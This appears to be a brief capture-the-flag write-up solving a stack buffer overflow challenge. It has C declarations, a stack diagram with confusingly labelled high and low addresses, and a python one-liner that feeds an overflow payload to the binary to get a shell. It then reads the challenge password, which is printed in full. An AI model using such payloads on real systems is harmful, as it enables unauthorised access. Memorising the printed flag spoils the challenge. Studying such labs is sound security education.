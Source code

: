 ```
  char buffer[64];
  int check;
  int i = 0;
  int count = 0;
```

Stack would look like this:
```
------------
| buffer   | <= High adresses
|          |   \
|          |    \
|          |      64 bytes
|          |    /
|          |   /
|          |  / 
------------
| check    |
|          | <= Low adresses
------------
```

Stack grows from high to low adresses. So we can overflow check with address *buffer -4*.

```
 (python -c 'print("\x08\x08\x08\x08\xbc\xfa\xff\xbf")' && cat -) | ./ch16 
Enter your name: a  
/bin/bash: line 2: a: command not found
cat .passwd
Sm4shM3ify0uC4n
```

**Boom!**
